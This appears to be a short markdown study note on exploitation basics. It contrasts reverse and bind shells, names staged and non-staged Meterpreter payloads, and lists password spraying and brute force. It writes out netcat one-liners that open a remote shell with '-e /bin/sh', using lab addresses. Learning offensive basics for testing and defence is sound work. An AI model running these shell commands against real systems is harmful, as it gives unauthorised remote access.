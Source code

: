 # Exploitation Basics
## Reverse vs Bind Shells

[Source](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

### Reverse Shell
95% of the time you will use reverse shell

~~~bash
# A victim connecting to us
# We are the listener and the target is who connect to us
# $ATTACKER - $IP 192.168.1.1
nc -lvnp 4444 # listening

# $TARGET - $IP 192.168.1.2
nc 192.168.1.1 4444 -e /bin/sh # Connecting
~~~

### Bind Shell
We connect to the victim

~~~bash
# Attacker - 192.168.1.1
nc 192.168.1.2 4444 # Connecting

#Target - 192.168.1.2
nc -lvp 4444 -e /bin/sh # Listening
~~~
---

## Staged vs Non-Staged Payload
### Non-Staged
Sends the exploit shellcode all at once
Larger in size and won't always work

~~~bash
# Example
windows/meterpreter_reverse_tcp
~~~

### Staged
Sends payload in stages
Can be less stable

~~~bash
# Example
windows/meterpreter/reverse_tcp
~~~

---
## Other methods
- Password Spraying and Credential Stuffing
- Brute Force Attacks
- Manual exploitation
- Gathering access using metasploit

---